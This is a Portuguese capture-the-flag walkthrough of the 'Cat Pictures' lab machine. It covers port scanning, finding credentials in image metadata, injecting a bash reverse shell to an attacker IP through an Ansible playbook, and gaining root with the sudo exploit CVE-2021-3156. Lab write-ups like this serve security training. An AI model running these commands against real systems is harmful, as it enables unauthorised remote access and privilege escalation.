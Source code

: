 # _**Cat pictures CTF**_
![](cats.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)

O scan nos retornou informações interessantes  
Além das que estão na imagem, temos  
* 3000/tcp open  http    Golang net/http server
* 8080/tcp open  http    SimpleHTTPServer 0.6

Vamos investigando cada um, primeiro, o que está na porta 80  
Um scan com <mark>Gobuster</mark> nos retorna a imagem abaixo
> ```bash
> gobuster dir --url http://[ip_address]:80/ -w ../seclists/Discovery/Web-Content/big.txt
> ```
![](scan_gobuster.jpg)

E temos alguns diretórios, mas ao tentar acessar, temos código 403  
Vasculhando a página inicial, encontramos um formulário de login  

![](login_form.jpg)

Algumas tentativas de SQL injection foram feitas, mas sem sucesso  
Com versão disponível, nenhum exploit foi encontrado  
Vamos para a porta 1337  

![](github_port.jpg)

Na porta 3000, temos um website com formulário de login  

![](port_3000.jpg)

Tentamos algumas formas para entrar como, credenciais comuns e SQL injection, mas sem sucesso  
Agora, na poarta 8080, temos a página _default_ do **Nginx**  

![](port_8080.jpg)

Investigando um pouco mais cada porta por vulnerabilidades, nada foi encontrado  
Vamos focar nas imagens na página web na porta 80  
Realizando o download de cada uma e investigando primeiro com <mark>Exiftool</mark>, foi possível encontrar a seguinte informação   

![](new_dir.jpg)

Temos um novo diretório, vamos investigar  
Neste documento _.txt_, temos usuário e senha para o formulário de login da porta 3000  
Vamos testar  
Conseguimos login! Investigando o usuário e seus _uploads_, temos algumas informações importantes e nossa primeira flag  
A pista para a segunda flag nos indica que também está no repositório do usuário  
Investigando o arquivo _playbook.yaml_, temos o seguinte trecho de código  

![](playbook_code.jpg)

Este código faz o seguinte:
* Se conecta a todos os hosts como o usuário bismuth
* Executa whoami para ver quem está executando os comandos
* Exibe a saída de whoami
* Executa um simples echo hi

Sabendo que o OliveTin na porta 1337 permite a execução de Ansible Playbooks, vamos substituir o comando por um simples payload de shell reverso ```bash -i >& /dev/tcp/[ip_address]/[port] 0>&1```  

![](reverse_shell.jpg)

E assim, podemos obter a segunda flag!

## _**Escalando privilégios**_
Vamos tentar escalar privilégios e encontrar a última flag  
Transferindo <mark>LinPeas</mark> para a máquina-alvo e executando, temos o seguinte retorno  
Algumas CVEs foram encontradas  
Uma delas chamou a atenção: **CVE-2021-3156**  

![](cve.jpg)

Vamos realizar o download do exploit através do link, transferir para a máquina-alvo, utilizar ```make```para gerar o exploit e executar  

![](root.jpg)

Agora basta ir atrás da útlima flag
